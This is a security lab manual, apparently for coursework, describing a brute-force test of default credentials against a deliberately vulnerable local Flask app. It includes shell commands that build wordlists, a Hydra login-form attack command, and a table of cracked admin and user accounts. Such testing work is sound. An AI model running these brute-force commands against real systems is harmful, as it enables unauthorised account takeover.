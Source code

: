 # Lab Manual  
**Experiment No:** 1  
**Title:** Security Testing of Authentication Mechanisms in Web Applications  

## Objective  
To identify and exploit common authentication vulnerabilities including default credentials, weak lockout mechanisms, browser cache issues, weak password policies, and insecure password reset functionalities.

---

## 1. Lab Setup & Environment  

**Lab Application Details**  
- **URL:** http://localhost:5000  
- **Technology Stack:** Flask, PostgreSQL, Docker  
- **Purpose:** Deliberately vulnerable web application for security education  

---

## 2. Experiment Procedures  

### TEST 1: Default Credentials Testing  
**Aim:** Identify accessible accounts using common default credentials.

**Procedure:**

echo -e "admin\nuser\ntest\ndemo\nguest\nroot" > users.txt &&
echo -e "admin\npassword\ntest\ndemo\n123456\nletmein" > passwords.txt
Execute Hydra attack

hydra -L users.txt -P passwords.txt -f -V -s 5000 localhost http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid"

text

**Observations:**

| Username | Password | Status  |
|-----------|-----------|---------|
| admin     | admin     | ✅ Success |
| user      | password  | ✅ Success |
| test      | test      | ✅ Success |
| demo      | demo      | ✅ Success |

**Result:** Multiple default credentials provide unauthorized access.

---
